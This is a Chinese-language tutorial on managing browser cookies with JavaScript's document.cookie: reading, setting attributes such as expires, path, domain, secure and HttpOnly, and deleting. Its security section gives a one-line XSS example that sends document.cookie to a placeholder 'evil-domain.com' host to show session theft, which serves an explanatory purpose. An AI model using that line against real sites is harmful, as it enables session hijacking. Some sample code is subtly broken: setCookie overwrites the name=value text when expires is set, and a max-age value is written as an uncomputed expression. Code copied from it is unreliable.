 ## 概述
使用 `document.cookie` 属性来创建 、读取、及删除 cookie。  
匹配到当前域名（domain）和路径（path）的未过期cookie会附加到当前页面的所有请求的请求头中。

**注意**：`AJAX（XHR2）`可通过设置`xhr.withCredentials = true`以及服务器端配合设置`header("Access-Control-Allow-Credentials: true")`来支持跨域发送cookies

### 屏蔽请求中携带cookie
- 将静态资源放在不同域或子域下
- ajax请求路径在不同域或子域下

### 判断浏览器有无禁用cookie
`navigator.cookieEnabled`

### 安全
**路径限制并不能阻止从其他路径访问cookie**。使用简单的DOM即可轻易地绕过限制(比如创建一个指向限制路径的, 隐藏的`iframe`, 然后访问其 `contentDocument.cookie` 属性). 保护cookie不被非法访问的唯一方法是将它放在另一个域名/子域名之下, 利用同源策略保护其不被读取。  

Web应用程序通常使用cookies来标识用户身份及他们的登录会话。 因此通过窃听这些cookie, 就可以劫持已登录用户的会话。 窃听的cookie的常见方法包括社会工程和XSS攻击
```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
`HttpOnly` 属性可以阻止通过js访问cookie, 从而一定程度上遏制这类攻击

## 获取cookie
`document.cookie` 将以字符串的方式返回所有的 cookie 。格式如下：
```
cookie1=value; cookie2=value; cookie3=value;`
```

**获取指定的cookie值**：
```js
function getCookie(name){
    var cookies = document.cookie;
    var cookieName = encodeURIComponent(name) + '=';
    var cookieStart = document.cookie.indexOf(cookieName);
    var cookieValue = null;
    if (cookieStart > -1) {
        var cookieEnd = cookies.indexOf(';', cookieStart);
        if (cookieEnd == -1) {
            cookieEnd = cookies.length;
        }
        cookieValue = decodeURIComponent(cookies.substring(cookieStart + cookieName.length, cookieEnd));
    }
    return cookieValue;
}

// 通过正则获取cookie
function getCookie(name) {
    // (^| ) 以后面的字符或空格开始。
    // ([^;]*) 只匹配除了;号之外的所有字符。
    // (;|$) 匹配以;号或以前面的字符为结尾的字符。
    if (name && new RegExp("(^| )" + name + "=([^;]*)(;|$)").exec(document.cookie)){
        return decodeURIComponent(RegExp.$2);
    }
}

```
## 新建或修改cookie
通过`document.cookie`重新赋值新建或修改cookie（并不会完全重写cookie，相当于添加操作）。  

**新建或修改cookie**：
```js
document.cookie="name=paul";
```

### 可配置参数

**Expires**：    
为 cookie 添加一个过期时间（以 UTC 或 GMT 时间）。默认情况下，cookie 在浏览器关闭时删除
```js
document.cookie="name=paul; expires=Thu, 18 Dec 2013 12:00:00 GMT";
```

**Max-Age**：  
设置cookie的有效时长。单位：秒
```js
// 设置cookie有效期一年
document.cookie="name=paul; max-age=365*24*60*60";
```

**Path**：  
设置cookie的路径。默认情况下，cookie 属于当前页面。
```js
// 设置cookie属于根路径
document.cookie="name=paul; expires=Thu, 18 Dec 2013 12:00:00 GMT; path=/";
```

**Domain**：
设置cookie的域名。默认为当前文档位置的路径的域名部分。
```js
// 设置域名为 "*.a.com"
document.cookie="name=paul; expires=Thu, 18 Dec 2013 12:00:00 GMT; path=/;domain=.a.com";
```

**Secure**：
设置cookie是否只通过https协议传输
```js
document.cookie="name=paul; expires=Thu, 18 Dec 2013 12:00:00 GMT; path=/;domain=.a.com;secure";
```

**HttpOnly**：阻止通过js访问cookie（一般由服务端设置）

```js
document.cookie="name=paul; expires=Thu, 18 Dec 2013 12:00:00 GMT; path=/;domain=.a.com;secure;HttpOnly";
```

**设置或修改指定cookie**
```js
function setCookie(opts) {
    var name = opts.name;
    var value = opts.value;
    var expires = opts.expires; //
    var path = opts.path;
    var domain = opts.domain;
    var secure = opts.secure;
    var cookieText = encodeURIComponent(name) + '=' + encodeURIComponent(value);
    if (expires) {
        switch (expires.constructor) {
        case Number: // 单位秒
          cookieText = expires === Infinity ? "; expires=Fri, 31 Dec 9999 23:59:59 GMT" : "; max-age=" + expires;
          break;
        case String:
          cookieText = "; expires=" + expires;
          break;
        case Date:
          cookieText = "; expires=" + expires.toUTCString(); // 或者 toGMTString()
          break;
        }
    }
    if (path) {
        cookieText += '; path=' + path;
    }
    if (domain) {
        cookieText += '; domain=' + domain;
    }
    if (secure) {
        cookieText += '; secure';
    }
    document.cookie = cookieText;
}
```

## 删除cookie
设置 expires 参数为以前的时间即可

```js
document.cookie = "name=; expires=Thu, 01 Jan 1970 00:00:00 GMT";
```
**注意**：
- 删除时不必指定 cookie 的值
- 如果要删除非当前路径下的cookie，需制定`path`参数

```js
// 不传key参数表示删除所有cookie
function removeCookie (key, path, domain) {
  let keys = key
  let forPath = ';path=' + (path || '/')
  forPath += domain ? ';domain=' + domain : ''
  if (key) {
    if (!Array.isArray(key)) {
      keys = [key]
    }
  } else {
    keys = document.cookie.match(/(?!\s)([^;=]+)(?==.*(;|$))/g)
  }
  keys.forEach(function (item, index) {
    document.cookie = item + '= ; expires=' + new Date(0) + forPath
  })
}
```

**参考**：
- [MDN：cookie](https://developer.mozilla.org/zh-CN/docs/Web/API/Document/cookie)
- [菜鸟教程：cookie](http://www.runoob.com/js/js-cookies.html)
